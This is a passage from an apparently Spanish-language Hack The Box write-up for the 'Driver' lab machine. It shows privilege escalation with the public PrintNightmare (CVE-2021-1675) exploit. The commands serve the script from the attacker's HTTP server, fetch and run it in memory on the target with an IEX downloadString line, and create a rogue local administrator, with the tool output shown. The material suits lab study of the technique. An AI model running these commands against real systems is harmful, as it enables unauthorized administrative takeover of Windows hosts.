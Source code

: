 ![](/assets/images/htb-writeup-driver/web8.png)

Si buscamos vulnerabilidades sobre eso encontramos esto <https://github.com/calebstewart/CVE-2021-1675> <https://raw.githubusercontent.com/calebstewart/CVE-2021-1675/main/CVE-2021-1675.ps1>

Ahora lo pasamos ala maquina victima

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.106 - - [08/Jun/2023 15:20:06] "GET /CVE-2021-1675.ps1 HTTP/1.1" 200 -
```

```bash
*Evil-WinRM* PS C:\Windows\Temp\Escalada> IEX(New-Object Net.WebClient).downloadString('http://10.10.14.9/CVE-2021-1675.ps1')
```

Ahora siguiendo los pasos del repositorio vamos a crear un nuevo usuario

```bash
*Evil-WinRM* PS C:\Windows\Temp\Escalada> Invoke-Nightmare -DriverName "Xerox" -NewUser "miguelrega7" -NewPassword "miguel123$!"
[+] created payload at C:\Users\tony\AppData\Local\Temp\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_f66d9eed7e835e97\Amd64\mxdwdrv.dll"
[+] added user miguelrega7 as local administrator
[+] deleting payload from C:\Users\tony\AppData\Local\Temp\nightmare.dll
*Evil-WinRM* PS C:\Windows\Temp\Escalada> net user 

User accounts for \\

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest
miguelrega7              tony
The command completed with one or more errors.

*Evil-WinRM* PS C:\Windows\Temp\Escalada> 
```
